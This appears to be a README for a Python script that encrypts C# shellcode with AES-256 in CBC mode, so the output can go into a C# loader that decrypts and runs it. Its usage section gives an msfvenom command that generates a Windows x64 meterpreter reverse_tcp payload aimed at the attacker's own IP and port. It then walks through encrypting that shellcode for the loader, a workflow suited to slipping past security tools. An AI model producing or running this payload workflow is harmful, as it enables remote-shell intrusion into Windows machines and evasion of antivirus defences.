 ## AES256enc.py – AES-256 Encryption 
This script encrypts **C# shellcode** using **AES-256 in CBC mode**, ensuring payload confidentiality.  

### Output Format:  
- **AES Key** – Generated AES key in `xx-xx` format for C# integration.  
- **IV (Initialization Vector)** – IV in `xx-xx` format for CBC decryption.  
- **Encrypted Shellcode** – Ready-to-use byte array for C# execution.  

### Installation & Dependencies  
```bash
sudo apt update  
sudo apt install python3-pycryptodome
```

### Usage
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp
```
-  Copy the byte array inside {} from msfvenom output.
Paste it into buf in AES256enc.py.
- run either python script.
```bash
python3 aes256.enc.py
```
Copy the Generated Key, IV, and Encrypted Shellcode and paste them into your C# loader for decryption and execution.
